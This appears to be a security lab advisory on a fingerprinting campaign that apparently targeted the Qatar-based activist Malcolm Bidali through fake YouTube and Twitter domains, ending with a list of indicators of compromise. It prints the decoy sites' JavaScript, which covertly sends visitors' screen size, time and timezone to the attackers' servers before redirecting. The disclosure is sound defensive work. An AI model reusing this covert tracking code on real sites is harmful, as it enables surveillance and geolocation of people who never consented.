


# Fingerprinting Campaign Targeting Malcolm Bidali

On the 4th of May 2021, Qatar’s state security services forcibly disappeared the Kenyan labour rights activist Malcolm Bidali. Migrant-Rights.org, FairSquare, Amnesty International, Human Rights Watch, and the Business & Human Rights Resource Centre [are calling on Qatari authorities to immediately reveal his whereabouts and explain why he has been detained](https://www.amnesty.org/en/latest/news/2021/05/activist-malcolm-bidali-in-solitary-confinement-in-qatar/). If he has been detained for his activism he should be released immediately and unconditionally.

Malcolm Bidali, 29, is a security guard in Qatar, blogger and activist, who has been vocal about the plight of migrant workers like himself, and has written using a pseudonym Noah for a number of online platforms.

A few days before his disappearance, someone replied to a tweet from Malcolm's Twitter account [@NoahArticulates](https://twitter.com/noaharticulates) with a link to what appeared to be a Human Rights Watch video. This link has been used in an attempt to gather technical information which may have contributed to his identification or geolocation. Amnesty International's Security Lab identified two more domains related to this campaign which may have been used in the same way.

## Initial Tweet

On the 26th of April, the Twitter account @MukhbatQatar replied to @NoahArticulates with a tweet that included a link to a domain mimicking YouTube: `https://youl[.]tube/watch?v=Gt4tqJLiOT0&t=s17`



The link shared with Malcolm Bidal loads a YouTube video by Human Rights Watch about labor rights in Qatar.



Logs from Malcolm’s visit to this decoy page might have allowed the attackers to obtain his IP address, which could have been used to identify and locate him.

## More Domains

While investigating this link, Amnesty International's Security Lab has identified two additional domains related to this campaign.

The same Twitter account @MukhbatQatar has shared a link to the domain `https://twittre[.]co/`with another Twitter user. Using the following JavaScript code (as seen on May 21st), this website collected information about a visitor before redirecting to a legitimate tweet:

```js
$.post('https://twittre[.]co/googleanalytics.js', {
    action: "[REDACTED]",
    widthScreen: $(window).width(),
    heightScreen: $(window).height(),
    TimeUser: parseInt((new Date().getTime() / 1000).toFixed(0)),
    TimeZone: Intl.DateTimeFormat().resolvedOptions().timeZone,
    success:function(response){
        window.location.href = "https://twitter.com/[REDACTED]";
    },
    }, function (data) {
    });
```

This code sends the screen size, system time and timezone to another page likely recording visits, probably along with the IP address.

A second domain with a similar infrastructure, `twitt-er[.]app`, uses the exact same code:

```js
$.post('https://twitt-er[.]app/statistics', {
    action: 'm',
    widthScreen: $(window).width(),
    heightScreen: $(window).height(),
    TimeUser: parseInt((new Date().getTime() / 1000).toFixed(0)),
    TimeZone: Intl.DateTimeFormat().resolvedOptions().timeZone,
}, function (data) {
    window.location.href = 'https://twitter.com/[REDACTED]';
});
```

We have not seen this last domain actively distributed, but we noticed URIs redirect to tweets from other Qatari citizens.

All three of these domains were registered between March and May 2021 using the Njalla registration service, and hosted on separate Digital Ocean servers.

## Indicators of compromise

Here are the domains and IP addresses used in this campaign:

```
youl[.]tube
twittre[.]co
twitt-er[.]app
138.197.103.227
128.199.212.166
161.35.100.139
```
